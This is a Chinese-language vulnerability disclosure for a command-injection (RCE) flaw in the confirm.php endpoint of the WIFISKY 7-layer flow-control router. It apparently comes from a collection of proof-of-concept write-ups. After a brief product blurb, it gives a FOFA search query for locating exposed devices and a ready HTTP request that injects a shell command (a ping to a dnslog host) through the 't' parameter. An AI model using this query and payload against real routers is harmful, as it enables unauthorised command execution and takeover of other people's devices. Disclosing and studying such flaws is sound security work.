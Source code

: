 # WIFISKY-7层流控路由器confirm.php接口处存在RCE漏洞

## 1.产品介绍

WIFISKY7是一款支持7层流控的智能路由器，通过深度包检测技术，在网络层面实现精准的流量控制。其特点包括高度可定制的应用识别、智能QoS管理和强大的安全防护功能。用户可以根据需求，灵活设置不同应用的带宽优先级，实现网络流量的优化和管理。同时，WIFISKY7还配备了先进的防火墙和入侵检测系统，有效保障网络安全。

![截图](beef69cfab2c3dc0842929490d9fbaa4.png)

## 2.漏洞概述

WIFISKY-7层流控路由器confirm.php接口处存在RCE漏洞，恶意攻击者可能利用此漏洞执行恶意命令，获取服务器敏感信息，最终可能导致服务器失陷。

## 3.漏洞复现

FOFA：

```
title="WIFISKY 7层流控路由器"
```

POC：

```
GET /notice/confirm.php?t=;ping%20hjkca1.dnslog.cn HTTP/1.1
Host: 127.0.0.1
Cookie: SESSID=hjdgshj7hbjhbytvjvhj8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Te: trailers
Connection: close
```

![截图](c0d53736ba6dd1aefd85e7c2c3ee6ac5.png)

![截图](a0df3f9f91da1ffec9fb326db9f7c6dc.png)